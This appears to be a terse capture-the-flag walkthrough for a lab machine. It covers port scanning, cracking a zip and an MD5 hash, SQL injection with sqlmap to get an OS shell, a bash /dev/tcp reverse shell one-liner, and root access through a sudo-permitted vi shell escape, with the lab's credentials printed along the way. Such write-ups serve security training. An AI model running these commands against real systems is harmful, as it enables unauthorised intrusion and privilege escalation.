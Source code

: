 - 10.10.10.46
 
- nmap scan for open ports:
	- 21: ftp
		- vsftpd 3.0.3
	- 22: ssh
		- openSSH 8.0p1
	- 80: http
		- Apache httpd 2.4.41

- ftp:
	- connect with given creds:
		- `ftpuser:mc@F1l3ZilL4`
	- → received .zip file protected with password
		- crack with john:
		```
		zip2john <.zip_file> > <output.hashes>
		john <output.hashes> -w <wordlist>
		```
		- get password `backup.zip:741852963`
		- and files `style.css, index.php`
			- in index.php there is password hash (MD5) → `2cb42f8734ea607eefed3b70af13bbd3:qwerty789`

- webpage
	- login page - try creds from previous box
		- → no go
	- login page - try creds from `index.php`
		- `admin:qwerty789`
	- →we get to page with search
		- vulnerable to SQL injection
		- run sqlmap on it:	`sqlmap -u='<URL>' --cookie="<COOKIE_inc_the_name>"`
		- get shell - run previous command with `--os-shell`


- foothold
	- gotten with sqlmap
	- run `bash -c 'bash -i >& /dev/tcp/<IP>/4444 0>&1'` for reverse shell

- privilege escalation
	- do research in `/var/www/`
	- in `dashboard.php` are creds
		- `postgres:P@s5w0rd!`
	- `sudo -l`
		- you can run `/bin/vi /etc/postgresql/11/main/pg_hba.conf` as sudo
			- from vi run `:!/bin/bash` → root → flag